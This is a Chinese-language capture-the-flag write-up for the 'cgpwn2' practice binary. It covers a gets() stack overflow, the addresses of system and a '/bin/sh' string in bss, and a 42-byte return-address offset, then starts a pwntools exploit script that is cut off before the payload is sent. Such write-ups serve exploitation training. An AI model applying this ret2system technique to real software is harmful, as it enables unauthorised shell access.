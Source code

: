 
## cgpwn2

> 菜鸡认为自己需要一个字符串

```
[*] '/ctf/work/adworld/cgpwn2/441cb6426ac744208071077728a09786'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

保护只开了 NX

![](https://vip1.loli.net/2019/12/27/BAT5KaoxqEzgYDb.png)

通过 IDA 检查程序，程序使用了 gets 函数，存在栈溢出漏洞。

![](https://vip1.loli.net/2019/12/27/DzU1PB8saAjgSYX.png)

继续检查，可以发现程序使用了 system 函数，但是没有直接给我们 /bin/sh

这样的话，我的思路就是调用他的 system，再加上自己填进去的 /bin/sh 拿到 shell

首先确定 system 的地址，双击 pwn 函数中的 `_system`

![](https://vip1.loli.net/2019/12/27/zL6xn4DAIEuXdlb.png)

![](https://vip1.loli.net/2019/12/27/3lvmdGMI5jH8UVR.png)

可以知道 system 的地址是 `0x8048420`

然后，我们去哪里写 `/bin/sh` 呢？回到 hello 函数，发现在 gets 的上面通过 fgets 函数读取了我们的名字，并且保存在了 bss 段中

![](https://vip1.loli.net/2019/12/27/z7rgUQajZT8JksP.png)

那么，我们在名字处填写 `/bin/sh` 的话，就保存在了 `0x804A080` 这个地址上，加上程序没有开 PIE 保护，一切就水到渠成了。

通过 `gets(&s)` 的栈溢出覆盖返回地址，手动调用 system 和传参。

![](https://vip1.loli.net/2019/12/27/Vv37trn9icEhPQC.png)

根据 IDA 目测计算可以知道(也可以使用 cyclic + gdb 进行计算)，传入 `0x26+0x4=42` 个字符刚好可以覆盖到返回地址上，构建这样的栈

![](https://vip1.loli.net/2019/12/27/A7gIYuJpE1m9lty.png)

```python
#!/usr/bin/env python

from pwn import *

proc = './441cb6426ac744208071077728a09786'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 33207)
else:
    p = process(proc)

system = 0x8048420
binsh = 0x804A080

p.sendlineafter('please tell me your name', '/bin/sh')
```